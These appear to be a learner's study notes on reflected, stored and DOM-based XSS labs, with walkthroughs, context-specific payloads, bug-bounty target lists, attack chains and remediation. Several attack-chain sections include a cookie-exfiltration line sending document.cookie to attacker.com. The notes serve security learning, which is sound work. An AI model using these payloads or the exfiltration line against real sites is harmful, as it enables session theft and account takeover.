# Lab-01 🐞 Reflected XSS — Enhanced & Real-World Complete Notes

---

## 🔹 Overview

Reflected Cross-Site Scripting (Reflected XSS) occurs when:

- User input is sent to the server  
- The server includes it immediately in the response  
- The browser interprets it as executable code  

Unlike Stored XSS:

- The payload is *not saved* in the database  
- It requires the victim to click a malicious link or submit crafted input  

In real-world attacks, the key challenge is not just finding reflection —  
it is understanding exactly *where the input lands in the response*.

👉 Payload depends entirely on context.

---

## 🔹 What Is This Topic?

Reflected XSS is a *client-side code execution vulnerability* caused by improper output encoding.

### Flow

1️⃣ User sends input (URL, form, header, JSON, etc.)  
2️⃣ Server returns it in response  
3️⃣ Browser renders it as HTML or JavaScript  
4️⃣ Malicious script executes  

> Reflection alone is NOT enough.  
> Context determines exploitability.

### Possible Reflection Contexts

- HTML body  
- Inside tag (h1, p, div)  
- Attribute values  
- Inline event handlers  
- JavaScript strings  
- Script blocks  
- URLs  
- JSON  
- Meta tags  
- Title tag  
- Template literals  
- DOM-based sinks  

---

## 🔹 Lab Walkthrough (Simple & Clear)

1️⃣ Open the lab  
2️⃣ Locate search bar  
3️⃣ Enter random string:

test123

4️⃣ Observe reflection in response:

<h1>You searched for: test123</h1>

5️⃣ Inject payload:
```
<script>alert(1)</script>
```
6️⃣ Script executes  

→ ✅ Lab solved  

But real-world exploitation is rarely this simple.

---

## 🔹 Evidence / Screenshot (SS)



---

# 🌍 Real-World Scenarios (COMPLETE — Context + Payload + Why)

---

## 🟢 1️⃣ Reflection Inside HTML Text (Most Common)

Example:
```
<h1>You searched for: INPUT</h1>
```
Payload:
```
<script>alert(1)</script>
```
*Why it works:*  
Browser parses injected tag as HTML.

*Real-world locations:*

- Search results  
- Login errors  
- 404 pages  
- Payment failure messages  
- Tracking parameters  

---

## 🟢 2️⃣ Inside HTML Attribute

Example:
```
<input value="INPUT">
```
Payload:
```
" onfocus=alert(1) autofocus="
```
Breaks attribute → injects event handler.

*Real-world locations:*

- Form fields  
- Profile editors  
- Search boxes  
- Hidden fields  
- Data attributes  

---

## 🟢 3️⃣ Inside JavaScript String

Example:
```
var q = "INPUT";
```
Payload:
```
";alert(1);//
```
Break string → execute JavaScript.

*Real-world locations:*

- Search query handling  
- Filters  
- Dynamic content rendering  
- Analytics tracking  

---

## 🟢 4️⃣ Inside Inline Event Handler

Example:
```
<button onclick="search('INPUT')">
```
Payload:
```
');alert(1);//
```
*Real-world:*

- Admin dashboards  
- Sorting buttons  
- Filtering components  

---

## 🟢 5️⃣ Inside Script Block Function Call

Example:
```
<script>search("INPUT")</script>
```
Payload:
```
");alert(document.domain);//
```
Very common in:

- Legacy apps  
- E-commerce filters  
- Reporting dashboards  

---

## 🟢 6️⃣ Inside URL (href or src)

Example:
```
<a href="INPUT">
```
Payload:
```
javascript:alert(1)
```
Or:
```
" onclick="alert(1)
```
*Real-world:*

- Redirect parameters  
- Continue URLs  
- Download links  
- OAuth redirects  

---

## 🟢 7️⃣ Reflected Inside JSON Response

Example:
```
{"error":"INPUT"}
```
If frontend uses:
```
innerHTML = response.error
```
Payload:
```
</script><script>alert(1)</script>
```
Very common in:

- SPA applications  
- API error responses  
- React/Vue apps  
- Mobile web apps  

---

## 🟢 8️⃣ Inside Meta Tag

Example:
```
<meta content="INPUT">
```
Payload:
```
"><script>alert(1)</script>
```
Seen in:

- SEO features  
- Social preview metadata  
- OpenGraph tags  

---

## 🟢 9️⃣ Inside Title Tag

Example:
```
<title>INPUT</title>
```
Payload:
```
</title><script>alert(1)</script>
```
Often found in:

- Search pages  
- Dynamic page titles  

---

## 🟢 🔟 Reflected via HTTP Headers

Example headers:
```
- X-Forwarded-Host  
- Referer  
- User-Agent  
```
If reflected in response:

Payload:
```
<script>alert(1)</script>
```
Common in:

- Error pages  
- Debug output  
- Logs rendered in admin panel  

---

## 🟢 1️⃣1️⃣ Template Literal Context

Example:
```
let msg = INPUT;
```
Payload:
```
${alert(1)}
```
Modern JS apps frequently use template strings.

---

## 🟢 1️⃣2️⃣ Reflection in DOM via JS

Server reflects safely, but frontend does:

document.getElementById("msg").innerHTML = param;

This becomes DOM-based XSS.

---

# 🎯 High-Value Endpoints (Bug Bounty Gold)

Always test:

- Search parameters  
- Login error messages  
- Password reset pages  
- OAuth redirect_uri  
- next= parameters  
- filter= parameters  
- sort= parameters  
- Preview features  
- File name displays  
- Payment error messages  
- Support ticket previews  
- Admin dashboards  
- Marketing tracking params  

---

# 🔗 Multi-Chain Real Attacks

---

## 🔥 XSS → Session Theft

- Steal cookies (if not HttpOnly)

---

## 🔥 XSS → Token Exfiltration

Steal:

- JWT tokens  
- CSRF tokens  
- LocalStorage tokens  

---

## 🔥 XSS → Account Takeover

Inject JS to:

- Change email  
- Change password  
- Enable MFA  

---

## 🔥 XSS → CSRF Bypass

Use JavaScript to send authenticated POST requests.

---

## 🔥 XSS → Admin Compromise

Send malicious link to admin.

---

## 🔥 XSS → Phishing Overlay

Inject fake login form.

---

## 🔥 XSS → Data Exfiltration

Read DOM:

- Personal data  
- Billing details  
- Messages  

---

## 🔥 XSS → Stored Pivot

Use reflected XSS to inject payload into stored feature.

---

# 🛡️ Remediation (Developer Fix)

- Escape output based on context  
- Encode HTML, attributes, and JavaScript separately  
- Avoid innerHTML  
- Use textContent  
- Use templating engines with auto-escaping  
- Implement CSP  
- Validate input  
- Avoid string concatenation in JavaScript  
- Set HttpOnly cookies  

---

# 💡 Extra Notes / Pro Hunter Mindset

Reflection ≠ vulnerability  
Execution = vulnerability  

Always ask:

- Where does my input land?  
- Is it HTML, JS, attribute, URL, or JSON?  
- Can I break out of context?  

Pro techniques:

- Break quotes first  
- Try closing tags  
- Inspect raw response  
- Use Burp search  
- Look for hidden reflections  
- Test headers  
- Test encoded payloads  
- Test each parameter separately  
- Think like a frontend developer  

---

# 🧠 Ultimate Mental Model

Find input  
→ Find reflection  
→ Identify context  
→ Break context  
→ Execute payload  
→ Escalate impact  

---

# Lab-02 🐞 Stored XSS — Enhanced & Real-World Complete Notes

---

## 🔹 Overview

Stored Cross-Site Scripting (Stored XSS), also called Persistent XSS or Second-Order XSS, happens when:

- User input is submitted  
- The application stores it in the database  
- Later, it is displayed in a page  
- The browser executes it as JavaScript  

Unlike Reflected XSS:

- The payload is saved in the database  
- It affects every visitor automatically  
- It often impacts logged-in users  
- It can compromise administrators  

Stored XSS is generally more dangerous because exploitation does not require tricking a victim into clicking a link.

---

## 🔹 What Is This Topic?

Stored XSS is a **persistent client-side code execution vulnerability** caused by improper output encoding of stored user input.

### Flow

1️⃣ User submits input (comment, profile field, ticket, etc.)  
2️⃣ Server stores it in database  
3️⃣ Application retrieves it later  
4️⃣ Browser renders it as HTML or JavaScript  
5️⃣ Malicious script executes  

> Storage + Unsafe Rendering = Persistent Execution

### Common Storage Locations

- Comments  
- Reviews  
- Profile fields  
- Support tickets  
- Forum posts  
- Chat messages  
- Feedback forms  
- Logs  

---

## 🔹 Lab Walkthrough (Simple & Clear)

1️⃣ Open the lab  
2️⃣ Locate the blog comment section  
3️⃣ Submit payload:

`<script>alert(1)</script>`

4️⃣ Comment is stored in the database  

5️⃣ Reload the blog post  

6️⃣ Stored payload appears in response:

`<p><script>alert(1)</script></p>`

7️⃣ Browser executes script  

→ ✅ Lab solved  

Real-world cases are often more complex and role-dependent.

---

## 🔹 Evidence / Screenshot (SS)



---

# 🌍 Real-World Scenarios (COMPLETE — Context + Payload + Why)

---

## 🟢 1️⃣ Stored in HTML Body (Most Common)

Example:

`<p>USER_COMMENT</p>`

Payload:

`<script>alert(1)</script>`

**Why it works:**  
Browser parses stored content as executable HTML.

Common in:

- Blogs  
- Reviews  
- Forums  

---

## 🟢 2️⃣ Stored in HTML Attribute

Example:

``

Payload:

`" onerror=alert(1) "`

Breaks attribute → injects event handler.

Common in:

- Profile pictures  
- Image captions  
- Tooltips  

---

## 🟢 3️⃣ Stored in JavaScript String

Example:

`var comment = "USER_INPUT";`

Payload:

`";alert(1);//`

Breaks JS string → executes JavaScript.

Common in:

- Dashboards  
- Notifications  
- History logs  

---

## 🟢 4️⃣ Stored in Admin Panel Only

User submits payload.  
Regular users don’t see it.  
Admin dashboard loads stored content.  

Admin gets XSS.

🔥 High-impact real-world scenario.

Common in:

- Support ticket systems  
- Contact forms  
- Abuse reports  
- Bug report portals  

---

## 🟢 5️⃣ Stored in Logs / Audit Pages

User input stored in logs.  
Later viewed by internal staff.  

Payload executes in internal panel.

Often overlooked.

---

## 🟢 6️⃣ Stored in User Profile Fields

Fields like:

- Display name  
- Bio  
- Location  
- Status  

Payload:

`<script>alert(document.cookie)</script>`

Every profile visitor is affected.

---

## 🟢 7️⃣ Stored via File Upload (Filename XSS)

Upload file named:

`"><script>alert(1)</script>.jpg`

If filename is displayed without encoding → Stored XSS.

Common in:

- Document managers  
- HR portals  
- Support systems  

---

## 🟢 8️⃣ Stored via HTTP Headers

Example: `User-Agent`

`<script>alert(1)</script>`

If admin log viewer prints headers → XSS.

Internal compromise vector.

---

## 🟢 9️⃣ Stored via Third-Party Data

Examples:

- Embedded tweets  
- Email previews  
- RSS feeds  
- External APIs  

If not sanitized → Persistent XSS.

---

# 🎯 High-Value Targets (Bug Bounty Gold)

Always test:

- Comment systems  
- Contact forms  
- Support tickets  
- Profile settings  
- Review sections  
- Feedback pages  
- Admin dashboards  
- Log viewers  
- Moderation panels  

---

# 🔗 Multi-Chain Real Attacks

---

## 🔥 XSS → Session Theft

Steal cookies (if not HttpOnly).

---

## 🔥 XSS → Token Exfiltration

Steal:

- JWT tokens  
- CSRF tokens  
- LocalStorage tokens  

---

## 🔥 XSS → Account Takeover

Inject JS to:

- Change email  
- Change password  
- Enable MFA  

---

## 🔥 XSS → CSRF Bypass

Use JavaScript to send authenticated POST requests.

---

## 🔥 XSS → Admin Compromise

Plant payload.  
Admin loads page.  
Full application compromise.

---

## 🔥 XSS → Data Exfiltration

Read DOM:

- Personal data  
- Billing details  
- Messages  

---

## 🔥 XSS → Worm-Like Spread

Payload auto-posts itself into new comments.  
Spreads between users.

---

# 🛡️ Remediation (Developer Fix)

- Escape output based on context  
- Encode HTML, attributes, and JavaScript separately  
- Avoid `innerHTML`  
- Use `textContent`  
- Use templating engines with auto-escaping  
- Implement CSP  
- Validate input  
- Avoid string concatenation in JS  
- Set HttpOnly cookies  

---

# 💡 Extra Notes / Pro Hunter Mindset

Storage ≠ vulnerability  
Execution = vulnerability  

Always ask:

- Where is my input stored?  
- Where is it displayed?  
- In what context?  
- Does admin see this?  
- Is it rendered inside JS?  

Pro techniques:

- Use unique markers  
- Test multiple roles  
- Check admin panels  
- Inspect logs  
- Search for hidden reflections  
- Trigger background workflows  

---

# 🧠 Ultimate Mental Model

Find input  
→ Confirm storage  
→ Locate every display location  
→ Identify context  
→ Break context  
→ Execute payload  
→ Escalate impact  

Stored XSS = Persistent  
Reflected XSS = Immediate  

Persistent = More dangerous

---

# Lab-3 🐞 DOM-Based XSS (document.write + location.search) — Enhanced & Real-World Complete Notes

---

## 🔹 Overview

DOM-Based Cross-Site Scripting (DOM XSS) occurs when:

- User input enters the browser through the URL or another DOM source  
- JavaScript reads that input  
- The script inserts the input into the page using a dangerous function  
- The browser interprets it as HTML or JavaScript and executes it  

Important difference:

The vulnerability exists **inside client-side JavaScript** running in the browser.

The server response itself may be completely safe.

Execution happens **when the DOM is modified by JavaScript.**

### Flow

User Input  
→ DOM Source  
→ JavaScript  
→ Dangerous Sink  
→ Script Execution  

---

## 🔹 What Is This Topic?

DOM XSS occurs when JavaScript takes attacker-controlled input and writes it into the page without sanitization.

Two key components define the vulnerability.

### Source

A **source** is where attacker-controlled data enters JavaScript.

Common sources:
```
- location.search  
- location.hash  
- document.cookie  
- document.referrer  
- window.name  
- postMessage  
- localStorage  
- sessionStorage  
```
Example URL:

site.com/?search=hello

JavaScript reads:

location.search

---

### Sink

A **sink** is a dangerous JavaScript function that inserts or executes the data.

Common sinks:
```
- document.write()  
- innerHTML  
- outerHTML  
- insertAdjacentHTML()  
- eval()  
- setTimeout()  
- setInterval()  
- Function()  
```
Example vulnerable code:
```
document.write(location.search)
```
---

## 🔹 Lab Walkthrough (Simple & Clear)

### Step 1 — Open the Lab

The website contains a search feature.

Search query appears in the URL.

Example:

site.com/?search=test

---

### Step 2 — Test Reflection with Safe Marker

Input:
```
ABC123
```
Open **Developer Tools → Inspector**

Search for:

ABC123

Found inside DOM:
```

```
This confirms:

Input appears inside an **image src attribute**.

---

### Step 3 — Identify JavaScript Vulnerability

The page uses:
```
document.write()
```
with:
```
location.search
```
Data flow:
```
location.search  
→ document.write()  
→ DOM
```
JavaScript is writing attacker input directly into the DOM.

---

### Step 4 — Craft Exploit Payload

Since input is inside an **HTML attribute**, we must break the attribute.

Payload:
```
"><svg onload=alert(1)>
```
---

### Step 5 — Browser Parses Payload

Original DOM:
```

```
After payload:
```

<svg onload=alert(1)>
```
SVG loads.

onload executes.

Alert appears.

---

### Step 6 — DOM Changes After Exploit

Inspector now shows:
```
<svg onload="alert(1)">
```
JavaScript executes.

→ ✅ Lab solved

---

## 🔹 Evidence / Screenshot (SS)

### Screenshot-1


### Screenshot-2


---

# 🌍 Real-World Scenarios (COMPLETE — Context + Payload + Why)

---

## 🟢 1️⃣ document.write (Legacy Websites)

Example code:
```
document.write(location.search)
```
Payload:
```
<script>alert(1)</script>
```
Why it works:

document.write inserts raw HTML directly into the page.

Common in:
```
- Legacy CMS plugins  
- Old analytics scripts  
- Tracking systems  
```
---

## 🟢 2️⃣ Attribute Injection

Example:
```
document.write('')
```
Payload:
```
"><svg onload=alert(1)>
```
Breaks attribute → injects new tag.

Real-world locations:
```
- Tracking pixels  
- Marketing scripts  
- Image previews  
```
---

## 🟢 3️⃣ innerHTML Sink

Example:
```
results.innerHTML = location.search
```
Payload:
```

```
Very common in:
```
- Search result pages  
- Filters  
- Dynamic UI updates  
```
---

## 🟢 4️⃣ JavaScript Execution Sinks

Example:
```
eval(location.hash)
```
Payload:
```
#alert(1)
```
Also vulnerable:

- setTimeout(location.hash)  
- Function(location.hash)  

Seen in:
```
- Debug tools  
- Old JS frameworks  
- Dynamic script loaders  
```
---

## 🟢 5️⃣ URL Fragment Attacks

Example source:
```
location.hash
```
URL:
```
site.com/#
```
Common in:
```
- Single-page applications  
- Navigation tabs  
- Client-side routing  
```
---

## 🟢 6️⃣ Search Result Rendering

Example code:
```
document.getElementById("results").innerHTML =
"You searched: " + location.search
```
Payload:
```

```
Seen in:
```
- E-commerce search pages  
- Dashboards  
- Analytics panels  
```
---

## 🟢 7️⃣ Referrer-Based DOM XSS

Source:
```
document.referrer
```
If attacker controls referring page → payload executes.

Seen in:
```
- Affiliate programs  
- Marketing tracking scripts  
```
---

# 🎯 High-Value DOM XSS Targets

Always test:
```
- Search features  
- Filters  
- URL parameters  
- Client-side routing  
- Comment previews  
- Product previews  
- Admin dashboards  
- Analytics scripts  
- Tracking widgets  
```
---

# 🔗 Multi-Chain Real Attacks

---

## 🔥 XSS → Session Theft

fetch("https://attacker.com?cookie="+document.cookie)

Steals session cookies.

---

## 🔥 XSS → Account Takeover

Steal:

- JWT tokens  
- Session cookies  
- CSRF tokens  

---

## 🔥 XSS → Admin Compromise

Admin visits infected page.

Attacker gains administrator access.

---

## 🔥 XSS → Data Exfiltration

JavaScript can read:

- DOM content  
- API responses  
- Private user data  

---

## 🔥 XSS → CSRF Automation

Payload performs actions automatically.

Example:

fetch("/change-email",{method:"POST"})

---

# 🧪 How to Find DOM XSS (Bug Hunter Methodology)

---

## Step 1 — Identify Sources

Search JavaScript for:
```
- location.search  
- location.hash  
- document.cookie  
- document.referrer  
- window.name  
```
Use DevTools search:

Ctrl + Shift + F

---

## Step 2 — Inject Test Marker

Example:

XSS123TEST

---

## Step 3 — Inspect Live DOM

Important rule:

Always inspect **Live DOM**, not **View Source**.

DOM XSS appears **after JavaScript executes**.

---

## Step 4 — Find Sink

Look for:
```
- document.write  
- innerHTML  
- eval  
- setTimeout  
- Function  
```
---

## Step 5 — Craft Payload Based on Context

Attribute context:
```
"><svg onload=alert(1)>
```
HTML context:
```
<script>alert(1)</script>
```
JS string context:
```
';alert(1);//
```
---

# 🛡️ Remediation (Developer Fix)

Developers should:

- Avoid document.write()  
- Avoid innerHTML for untrusted input  
- Use textContent  
- Sanitize inputs  
- Use secure frameworks  
- Implement CSP  

Safe example:

element.textContent = userInput

This prevents HTML execution.

---

# 💡 Extra Notes / Pro Hunter Mindset

Source ≠ vulnerability  
Sink ≠ vulnerability  

Source + Sink + Unsafe Flow = DOM XSS

Always ask:

- Where does input enter JavaScript?  
- Which function writes it into the DOM?  
- What context is the output in?  
- Can I break that context?  

DOM XSS hunting requires **tracking data flow inside JavaScript.**

---

# 🧠 Ultimate Mental Model

Find source  
→ Track data flow in JavaScript  
→ Identify sink  
→ Determine context  
→ Break context  
→ Execute payload  
→ Escalate impact  

---

# 💡 Key Difference Between XSS Types

Reflected XSS  
→ Server immediately reflects input

Stored XSS  
→ Server stores input in database

DOM XSS  
→ JavaScript processes input inside the browser

---

# Lab-4 🐞 DOM-Based XSS via document.write + location.search inside select tag

---

## 🔹 Overview

DOM-Based Cross-Site Scripting (DOM XSS) occurs when user-controlled input is processed entirely within the browser and inserted into the DOM using unsafe JavaScript functions.

In this lab, the vulnerability does not exist in the server response. Instead, it exists in client-side JavaScript that reads data from the URL and dynamically writes it into the page.

This means:

- The server returns a safe response ❌  
- The payload is not stored ❌  
- Execution happens only after JavaScript modifies the DOM ✅  

DOM XSS is especially dangerous in modern applications where most rendering happens in the frontend.

---

## 🔹 What Is This Topic?

DOM XSS occurs when:

User input → JavaScript → Unsafe DOM insertion → Execution  

The key idea:

If attacker-controlled data flows into a dangerous JavaScript sink without sanitization, it can lead to execution in the browser.

Unlike reflected or stored XSS, the server is not directly involved in rendering the payload. The browser becomes the execution environment.

---

## 🔹 Lab Walkthrough

---

### Step 1 — Open the lab

The application is a stock checker with a dropdown menu for selecting store locations such as London, Paris, and Milan.

---

### Step 2 — Observe normal behavior

Selecting a store updates stock information dynamically.

At first glance:

- No user input appears in the URL ❌  

---

### Step 3 — Investigate JavaScript

Using DevTools, search for:

location.search  

You discover that the application reads a parameter called:

storeId  

---

### Step 4 — Inject parameter manually

Even though it is not visible initially, you can append:

?storeId=London  

The application continues to function normally.

This confirms that input is being processed through JavaScript.

---

### Step 5 — Test reflection in DOM

Inject a test string:

XSS123  

Now inspect the live DOM using DevTools (not View Source).

You find:
```
<option selected>XSS123</option>
```
This confirms that user input is inserted into the DOM.

---

### Step 6 — Identify context

The input is placed inside:
```
<option selected>INPUT</option>
```
Which means:

- It is inside an option element  
- Which itself is inside a select  

---

### ⚠ Important observation

The select element is a restricted HTML context.

- Scripts and many tags will not execute inside it  

This means a normal payload like:
```
<script>alert(1)</script>
```
will fail.

---

### Step 7 — Craft payload

To exploit this, you must break out of the select structure and inject a new HTML element.

Payload (encoded in lab):
```
"></select>
```
Decoded payload:
```
"></select>
```

---

### Step 8 — Understand DOM transformation

Before injection:
```
<option selected>London</option>
```
After injection:
```
<option selected>"></option>
</select>

```

---

### Step 9 — Execution

The image fails to load, triggering the onerror event.

JavaScript executes successfully.

→ Alert triggered  
→ Lab solved ✅  

---

## 🔹 Evidence / Screenshot (SS)





---

## 🌍 Real-World Scenarios

---

### 🟢 1️⃣ Dropdown / Select Injection

Applications dynamically generate dropdown options using JavaScript.

Example:
```
document.write("<option>"+userInput+"</option>")
```
Payload:
```
"></select><svg onload=alert(1)>
```
Impact:

Breaking out of restricted tags allows execution.

---

### 🟢 2️⃣ document.write in Legacy Applications

Older applications often use:
```
document.write(userInput)
```
Payload:
```
<script>alert(1)</script>
```
Impact:

Direct execution due to lack of sanitization.

---

### 🟢 3️⃣ innerHTML-Based DOM Injection

Example:
```
element.innerHTML = userInput
```
Payload:
```

```
Common in:

- Search results  
- Dynamic UI rendering  
- Dashboards  

---

### 🟢 4️⃣ JavaScript Execution Sinks

Example:
```
eval(userInput)
```
Payload:
```
alert(1)
```
Also vulnerable:

- setTimeout(userInput)  
- Function(userInput)  

---

### 🟢 5️⃣ URL Fragment-Based DOM XSS

Source:

location.hash  

Payload:
```
#
```
Common in:

- Single-page applications  
- Client-side routing  

---

### 🟢 6️⃣ Hidden Parameter Processing

Applications may not expose parameters in UI but still process them via JavaScript.

Attackers can manually inject:
```
?param=payload
```

---

## 🎯 High-Value Targets

- Search parameters  
- Filters  
- Dropdowns and select inputs  
- Client-side routing  
- Preview features  
- Analytics scripts  
- Tracking widgets  
- Admin dashboards  
- Hidden JavaScript parameters  

---

## Attack Chains

---

### 🔥 Session Hijacking
```
fetch("https://attacker.com?c="+document.cookie)
```
Steals session data.

---

### 🔥 Account Takeover

Steal:

- Session cookies  
- JWT tokens  
- CSRF tokens  

Perform actions as victim.

---

### 🔥 Admin Compromise

Send malicious link → admin executes payload → full system impact.

---

### 🔥 Data Exfiltration

Extract:

- DOM content  
- API responses  
- User-sensitive information  

---

### 🔥 CSRF Bypass

Use JavaScript to perform authenticated actions automatically.

---

## 🧪 Methodology

---

### Step 1 — Identify sources

- location.search  
- location.hash  
- document.cookie  
- document.referrer  

---

### Step 2 — Inject test marker

XSS123TEST  

---

### Step 3 — Inspect live DOM

Use DevTools (not view-source)

---

### Step 4 — Identify sinks

- document.write  
- innerHTML  
- eval  

---

### Step 5 — Identify context

- HTML  
- Attribute  
- Restricted tag  

---

### Step 6 — Craft payload

Break structure  
→ Escape context  
→ Inject executable code  

---

## ⚠ Why This Lab Is Important

Because:

- Execution does not happen in server response  
- Traditional testing methods fail  
- Requires understanding of JavaScript flow  
- Restricted contexts require advanced payloads  

---

## 🛡 Remediation

- Avoid document.write()  
- Avoid innerHTML for untrusted input  
- Use textContent  
- Sanitize all inputs  
- Use secure frontend frameworks  
- Implement Content Security Policy (CSP)  

---

## 💡 Notes / Mindset

DOM XSS is about tracking data flow inside JavaScript, not just testing inputs.

---

## 🧠 Mental Model

Find input  
→ Track JavaScript flow  
→ Identify sink  
→ Identify context  
→ Break structure  
→ Execute payload  

---

## 💡 Key Difference

- Reflected XSS = Immediate execution via server  
- Stored XSS = Persistent execution from database  
- DOM XSS = Execution inside browser via JavaScript  

---

## 💡 One-Line Memory Hook

If your payload is trapped inside a tag → break the structure first  

---

## 🧠 Bug Hunter Mindset

→ Where does input enter JavaScript?  
→ Where is it written into the DOM?  
→ What context is it in?  
→ Is it inside a restricted tag?  
→ Can I break out of that structure?  

---

# Lab-5 🐞 DOM-Based XSS via innerHTML + location.search inside span tag

---

## 🔹 Overview

DOM-Based Cross-Site Scripting (DOM XSS) happens when:

1️⃣ User input enters through the URL  
2️⃣ JavaScript reads that input  
3️⃣ It inserts the input into the page using a dangerous function  
4️⃣ The browser parses it as HTML and executes it  

---

### ⚠ Important in this lab

- Vulnerability exists in JavaScript (client-side)  
- Server response may be completely safe  
- Execution happens when DOM is updated using innerHTML  

---

### 🔄 Flow

User Input  
→ location.search  
→ innerHTML  
→ DOM  
→ Browser parses  
→ Event executes  

---

## 🔹 What Is This Topic?

This lab demonstrates DOM XSS using:
```
element.innerHTML = location.search
```
---

### 🧠 Source

location.search  

👉 Reads user-controlled data from URL:
```
?search=INPUT
```
---

### 🧠 Sink

innerHTML  

👉 Inserts data directly into DOM as HTML (unsafe)

---

### ⚠ Important Behavior
```
<script>
```
- Does NOT execute inside innerHTML  

Event handlers DO execute:

- onerror  
- onload  

---

## 🔹 Lab Walkthrough

---

### Step 1 — Open the Lab

Go to blog search functionality  

---

### Step 2 — Test Input Reflection

Input:

XSS123  

---

### Step 3 — Inspect Live DOM

Use DevTools → Inspector (NOT view-source)

Found:
```
<span id="searchMessage">XSS123</span>
```
---

### Step 4 — Identify Context

👉 Input is inside:
```
<span>INPUT</span>
```
✔ HTML text context  
✔ Not attribute  
✔ Not JavaScript  

---

### Step 5 — Try Basic Payload
```
<script>alert(1)</script>
```
❌ Does NOT execute  

---

### Step 6 — Understand Why

Browser parses script tag  

But blocks execution when inserted via innerHTML  

---

### Step 7 — Craft Working Payload

🎯 Use event-based execution  

---

### ✅ Final Payload
```

```
---

### Step 8 — Browser Parsing

---

Before:
```
<span id="searchMessage">XSS123</span>
```
---

After:
```
<span id="searchMessage">

</span>
```
---

### Step 9 — Execution

1️⃣ Browser loads image  
2️⃣ src=x fails  
3️⃣ onerror triggers  
4️⃣ JavaScript executes  

💥 Alert appears  

---

### ✅ Lab solved

---

### ✔ Exact Payload Used
```

```
---

### ✔ Where Input Goes

URL → search parameter  

---

### ✔ Source → Sink → Execution Flow

location.search  
→ innerHTML  
→ DOM insertion  
→ browser parses  
→ image fails  
→ onerror executes  

---

### ✔ What Changed in DOM

---

Before:
```
<span id="searchMessage">XSS123</span>
```
---

After:
```
<span id="searchMessage">

</span>
```
---

## 🔹 Evidence / Screenshot (SS)



---

## 🌍 Real-World Scenarios

---

### 🟢 1️⃣ innerHTML Injection (Most Common)
```
element.innerHTML = userInput
```
Payload:
```

```
📌 Seen in:

- Search pages  
- Filters  
- Dashboards  
- Comments preview  

---

### 🟢 2️⃣ Dynamic UI Rendering
```
div.innerHTML = "Result: " + input
```
---

### 🟢 3️⃣ Error Messages / Notifications
```
msg.innerHTML = error
```
---

### 🟢 4️⃣ Third-Party Data Rendering
```
widget.innerHTML = apiResponse
```
---

### 🟢 5️⃣ Admin Panels

User input stored → rendered using innerHTML  

---

## 🎯 High-Value Targets

- Search functionality  
- Filters  
- URL parameters  
- Admin dashboards  
- Analytics panels  
- Notification systems  
- Preview features  

---

## 🔗 Attack Chains

---

### 🔥 Session Hijacking
```
fetch("https://attacker.com?cookie="+document.cookie)
```
---

### 🔥 Account Takeover

Steal:

- session cookies  
- tokens  

---

### 🔥 Admin Compromise

Admin loads page → payload executes  

---

### 🔥 Data Exfiltration

Read:

- DOM data  
- API responses  

---

### 🔥 CSRF Automation
```
fetch("/change-password",{method:"POST"})
```
---

## 🧪 Methodology

- Insert test string  
- Find reflection in DOM  
- Identify context  
- Identify source (location.search)
- Identify sink (innerHTML)  
- Test script payload (fails)  
- Use event-based payload  
- Confirm execution  

---

## ⚠ Why This Lab Is Special
```
<script>
```
- Does NOT work  

- Requires event-based payloads  
- Happens only in browser  
- Easily missed  

---

## 🛡 Remediation

- Avoid innerHTML with untrusted input  
- Use textContent instead  
- Sanitize input properly  
- Use frameworks with auto-escaping  
- Implement CSP  

---

## 💡 Notes / Mindset

DOM XSS is about tracking data flow inside JavaScript, not just testing inputs  

---

## 🧠 Mental Model

Find source  
→ Identify sink  
→ Check context  
→ Test payload  
→ Adjust  
→ Execute  

---

## 💡 Key Difference

Reflected XSS → server execution  

Stored XSS → persistent  

DOM XSS → browser execution  

---

## 💡 One-Line Memory Hook

If script fails → use event-based payload  

---

## 🧠 Bug Hunter Mindset

→ Where does input enter JavaScript?  
→ Is innerHTML used?  
→ What context is output in?  
→ Does script work or not?  
→ Should I use event payload?  

---

## 💡 Extra Tips

- Always check live DOM (Inspector)  
- Don’t rely on script payload blindly  
- Use img onerror as default payload  
- Browser may fix broken HTML  
- Focus on execution, not clean structure  

---

# Lab-6 🐞 DOM-Based XSS via jQuery attr() + location.search into href

---

## 🔹 Overview

DOM-Based Cross-Site Scripting (DOM XSS) happens when:

1️⃣ User input enters through the URL  
2️⃣ JavaScript reads that input  
3️⃣ A library (jQuery here) inserts it into the DOM  
4️⃣ Browser executes it in a dangerous context  

---

### ⚠ Important in this lab

- Vulnerability exists in JavaScript (client-side)  
- Server only provides a default value (returnPath=/)  
- Execution happens only when user clicks a link  

---

### 🔄 Flow

User Input  
→ location.search  
→ jQuery attr()  
→ href  
→ User Click  
→ JavaScript Execution  

---

## 🔹 What Is This Topic?

This lab demonstrates DOM XSS using:

'jQuery .attr() function'

---

### 🧠 Source

location.search  

👉 Reads user-controlled data from URL:

'?returnPath=INPUT'

---

### 🧠 Sink

'jQuery .attr("href", value)'

👉 Sets the href attribute of a link (unsafe if controlled)

---

### ⚠ Important Behavior

- Browser does NOT execute automatically  
- Execution happens ONLY when user clicks link  
- javascript: scheme turns link into executable code  

---

## 🔹 Lab Walkthrough

---

### Step 1 — Open the Lab

Go to Submit Feedback page  

---

### Step 2 — Observe URL
```
/feedback?returnPath=/
```
👉 Default value = homepage  

---

### Step 3 — Test Input Control

Modify URL:
```
/feedback?returnPath=TEST123
```
---

### Step 4 — Inspect Live DOM

Open DevTools → Elements  

Find Back link:
```
<a href="TEST123">
```
---

### Step 5 — Identify Context

👉 Input is inside:

href attribute  

✔ Attribute context  
✔ URL context  

---

### Step 6 — Identify Source & Sink

Source:

location.search  

Sink:

jQuery .attr("href", value)  

---

### Step 7 — Craft Payload

🎯 Goal:

Make browser execute JavaScript when link is clicked  

---

### ✅ Final Payload
```
javascript:alert(document.cookie)
```
---

### Step 8 — Inject Payload

Modify URL:
```
/feedback?returnPath=javascript:alert(document.cookie)
```
---

### Step 9 — DOM Change

Before:
```
<a href="/">
```
After:
```
<a href="javascript:alert(document.cookie)">
```
---

### Step 10 — Execution

1️⃣ User clicks Back link  
2️⃣ Browser detects javascript:  
3️⃣ Executes JavaScript  

💥 Alert appears  

---

### ✅ Lab solved

---

### 🔹 Exact Payload Used
```
javascript:alert(document.cookie)
```
---

### 🔹 Where Input Goes

URL → returnPath parameter  

---

### 🔹 Source → Sink → Execution Flow

location.search  
→ jQuery attr()  
→ href  
→ user click  
→ JS executes  

---

### 🔹 What Changed in DOM

---

Before:
```
<a href="/">
```
---

After:
```
<a href="javascript:alert(document.cookie)">
```
---

## 🔹 Evidence / Screenshot (SS)



---

## 🌍 Real-World Scenarios

---

### 🟢 1️⃣ Redirect / Back Links (VERY COMMON)

Code:
```
link.href = userInput
```
Payload:
```
javascript:alert(1)
